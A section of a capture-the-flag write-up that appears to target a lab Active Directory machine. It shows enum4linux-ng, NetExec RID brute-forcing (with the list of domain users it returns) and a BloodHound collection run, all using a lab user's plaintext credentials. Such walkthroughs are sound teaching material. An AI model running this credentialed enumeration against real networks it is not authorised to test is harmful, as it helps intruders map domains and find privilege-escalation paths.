 

## AD Enumeration

### Enum4linux

Try to execute enum4linux with creds to obtain some informations of domain and DC.

```bash
enum4linux-ng 10.10.11.42 -u 'olivia' -p 'ichliebedich'
```

### User enumeration

Having an AD valid password we can enumerate the users for example using NetExec tool

```bash
nxc smb 10.10.11.42 -u 'Olivia' -p 'ichliebedich' --rid-brute

[..SNIP..]
SMB         10.10.11.42     445    DC               1108: ADMINISTRATOR\olivia (SidTypeUser)
SMB         10.10.11.42     445    DC               1109: ADMINISTRATOR\michael (SidTypeUser)
SMB         10.10.11.42     445    DC               1110: ADMINISTRATOR\benjamin (SidTypeUser)
SMB         10.10.11.42     445    DC               1111: ADMINISTRATOR\Share Moderators (SidTypeAlias)
SMB         10.10.11.42     445    DC               1112: ADMINISTRATOR\emily (SidTypeUser)
SMB         10.10.11.42     445    DC               1113: ADMINISTRATOR\ethan (SidTypeUser)
SMB         10.10.11.42     445    DC               3601: ADMINISTRATOR\alexander (SidTypeUser)
SMB         10.10.11.42     445    DC               3602: ADMINISTRATOR\emma (SidTypeUser)
```



### Bloodhound

Using `bloodhound-python` tool in Kali machine we can get informations to how we can escalate our privileges.

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.11.42 -dc DC.administrator.htb -d administrator.htb --zip -u 'olivia' -p 'ichliebedich'
```
{% endcode %}
